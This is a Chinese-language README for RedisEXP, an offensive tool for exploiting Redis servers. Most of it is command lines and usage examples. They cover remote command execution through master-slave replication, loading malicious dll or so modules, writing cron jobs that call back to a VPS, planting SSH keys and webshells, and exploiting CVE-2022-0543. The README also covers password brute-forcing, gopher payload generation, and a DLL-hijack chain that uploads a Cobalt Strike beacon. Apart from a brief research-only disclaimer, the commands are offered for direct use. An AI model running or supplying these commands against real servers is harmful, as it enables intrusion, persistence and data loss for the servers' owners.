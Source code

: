 ## Redis 漏洞利用工具


### 声明

**本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。**

------

### 注意

**主从复制会清空数据，主从复制会清空数据，主从复制会清空数据，请注意使用！请注意使用！请注意使用！**

------

**详细命令使用： `-h` 查看**


```

██████╗ ███████╗██████╗ ██╗███████╗    ███████╗██╗  ██╗██████╗
██╔══██╗██╔════╝██╔══██╗██║██╔════╝    ██╔════╝╚██╗██╔╝██╔══██╗
██████╔╝█████╗  ██║  ██║██║███████╗    █████╗   ╚███╔╝ ██████╔╝
██╔══██╗██╔══╝  ██║  ██║██║╚════██║    ██╔══╝   ██╔██╗ ██╔═══╝
██║  ██║███████╗██████╔╝██║███████║    ███████╗██╔╝ ██╗██║
╚═╝  ╚═╝╚══════╝╚═════╝ ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═╝╚═╝

基本连接: 
RedisExp.exe -r 192.168.19.1 -p 6379 -w 123456

执行Redis命令：
RedisExp.exe -m cli -r 192.168.19.1 -p 6379 -w 123456 -c info

加载dll或so执行命令：
RedisExp.exe -m load -r 目标IP -p 目标端口 -w 密码 -rf (目标 dll | so 文件名)
RedisEXP.exe -m load -r 127.0.0.1 -p 6379 -rf exp.dll -n system -t system.exec

主从复制命令执行：
RedisExp.exe -m rce -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port [-c whoami 单次执行] -rf 目标文件名[exp.dll | exp.so (Linux)]
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami
RedisEXP.exe -m rce -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -c whoami -rf exp.so

主从复制上传文件：
RedisExp.exe -m upload -r 目标IP -p 目标端口 -w 密码 -L 本地IP -P 本地Port -rp 目标路径 -rf 目标文件名 -lf 本地文件
RedisEXP.exe -m upload -r 127.0.0.1 -p 6379 -L 127.0.0.1 -P 2222 -rp . -rf 1.txt -lf .\README.md

主动关闭主从复制：
RedisExp.exe -m close -r 目标IP -p 目标端口 -w 密码

写计划任务：
RedisExp.exe -m cron -r 目标IP -p 目标端口 -w 密码 -L VpsIP -P VpsPort
RedisEXP.exe -m cron -r 192.168.1.8 -p 6379 -L 192.168.1.8 -P 9001

写SSH 公钥：
RedisExp.exe -m ssh -r 目标IP -p 目标端口 -w 密码 -u 用户名 -s 公钥
RedisEXP.exe -m ssh -r 192.168.1.8 -p 6379 -u root -s ssh-aaaaaaaaaaaaaa

写webshell：
RedisExp.exe -m shell -r 目标IP -p 目标端口 -w 密码 -rp 目标路径 -rf 目标文件名 -s Webshell内容 [base64内容使用 -b 来解码]
RedisEXP.exe -m shell -r 127.0.0.1 -p 6379 -rp . -rf shell.txt -s MTIzNA== -b

CVE-2022-0543：
RedisExp.exe -m cve -r 目标IP -p 目标端口 -w 密码 -c 执行命令

爆破Redis密码：
RedisExp.exe -m brute -r 目标IP -p 目标端口 -f 密码字典
RedisEXP.exe -m brute -r 127.0.0.1 -p 6378 -f pass.txt

生成gohper：
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件

执行 bgsave：
RedisExp.exe -m bgsave -r 目标IP -p 目标端口 -w 密码

判断文件（需要绝对路径）：
RedisExp.exe -m dir -r 目标IP -p 目标端口 -w 密码 -rf c:\windows\win.ini

```



1. exp.dll 和 exp.so 来自 https://github.com/0671/RabR 已经把内容分别加载到 dll.go 和 so.go 可以直接调用。

2. 在写入webshell的时候因为有一些特殊字符，可以使用把webshell进行 base64 编码，然后使用 -b 参数来解码

3. **有空格的命令、目录或文件直接使用双引号即可 `"ls /"`**

4. 关闭Redis压缩(写入乱码的时候可以关闭压缩，工具在写入shell的时候默认添加了关闭压缩，写入后再恢复开启压缩)

   ```
   config set rdbcompression no
   ```

   

5. `stop-writes-on-bgsave-error` 默认为 `yes`, 如果 Redis 开启了 RDB 持久化并且最后一次失败了，Redis 默认会停止写入，让用户意识到数据的持久化没有正常工作。临时的解决方案是 `conf set stop-writes-on-bgsave-error` 设置为 no，只是让程序暂时忽略了这个问题，但是数据的持久化的问题并没有。（工具会默认设置为 `no` ，等工具退出的时候再重新设置回原来的值`yes`）

   ```
   config set stop-writes-on-bgsave-error no
   ```

   



### dll 劫持

利用dbghelp.dll：[https://github.com/P4r4d1se/dll_hijack](https://github.com/P4r4d1se/dll_hijack)

```
上传 cs 马
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp c:\users\public -rf test.exe  -lf artifact.exe

上传 dbghelp.dll 到 redis-server.exe 所在目录进行劫持
.\RedisEXP.exe -m upload -r 127.0.0.1 -p 6378 -w 123456 -L 127.0.0.1 -P 2222 -rp . -rf dbghelp.dll  -lf dbghelp.dll

触发dll劫持
.\RedisEXP.exe -m bgsave -r 127.0.0.1 -p 6378 -w 123456
```



### 生成gohper

```
RedisExp.exe -m gopher -r 目标IP -p 目标端口 -f gopher模板文件
```

写shell模板

```
config set dir /tmp
config set dbfilename shell.php
set 'webshell' '<?php phpinfo();?>'
bgsave
```



### 报错

```
工具报错：[ERR Error loading the extension. Please check the server logs.]        module load /tmp/exp.so

服务端报错：Module /tmp/exp.so failed to load: It does not have execute permissions.
```

有可能是 Redis 版本太高， exp.so 没有执行权限导致加载不了。具体需要查看服务端的报错



### 参考

本工具基于大量优秀文章和工具才得以~~编写~~ 抄写完成，非常感谢这些无私的分享者！

- https://github.com/zyylhn/redis_rce
- https://github.com/0671/RabR
- https://github.com/r35tart/RedisWriteFile
- https://github.com/toalaska/redis_tool
- https://yanghaoi.github.io/2021/10/09/redis-lou-dong-li-yong/
- https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher
- [原创 Paper | Windows 与 Java 环境下的 Redis 利用分析](https://mp.weixin.qq.com/s/f7hPOoSSiRJpyMK51_Vxrw)



